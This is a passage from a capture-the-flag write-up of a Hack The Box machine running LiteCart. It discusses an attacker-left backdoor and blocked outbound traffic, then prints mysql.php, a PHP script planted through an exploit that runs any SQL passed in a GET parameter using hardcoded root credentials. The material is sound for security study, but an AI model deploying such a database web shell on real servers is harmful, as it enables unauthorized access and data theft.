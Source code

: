 Now this is interesting. The attacker left a note!

{% include image.html image_alt="be420bef.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/be420bef.png" %}

### Backdoor

The user `red` is obviously a rabbit-hole. Why? There's no home directory and no shell. Something tells me that whoever left the note has also left a backdoor. On top of that, no outbound traffic other than traffic from SSH and HTTP, is allowed.

{% include image.html image_alt="96a89d94.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/96a89d94.png" %}

Sadly, this means that we are not going to get a reverse shell, and SSH into `mysql`'s account must be the intended way to get a foothold onto the machine.

#### LiteCart Database Configuration

Since the next step has something to do with MySQL, we'd better get the credentials required to make a local connection to the MySQL server through PHP's `mysqli` extension.

{% include image.html image_alt="273a95a9.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/273a95a9.png" %}

Armed with the credentials, we can once again repurpose the exploit to a MySQL client of sorts.

<div class="filename"><span>mysql.php</span></div>

```php
<?php
$mysqli = new mysqli("localhost", "root", "changethis", "ecom");

/* check connection */
if (mysqli_connect_errno()) {
    printf("Connect failed: %s\n", mysqli_connect_error());
    exit();
}

$query = $_GET[0]; # our SQL query

/* execute multi query */
if ($mysqli->multi_query($query)) {
    do {
        /* store first result set */
        if ($result = $mysqli->use_result()) {
            while ($row = $result->fetch_row()) {
                foreach ($row as $r)
                    printf("%s", (next($row) ? $r . ", " : $r));
                printf("\n");
            }
            $result->close();
        }
        /* print divider */
        if ($mysqli->more_results()) {
            printf("-----------------\n");
        }
    } while ($mysqli->next_result());
}

/* close connection */
$mysqli->close();
?>
```


[1]: https://www.hackthebox.eu/home/machines/profile/276
[2]: https://www.hackthebox.eu/home/users/profile/103781
[3]: https://www.hackthebox.eu/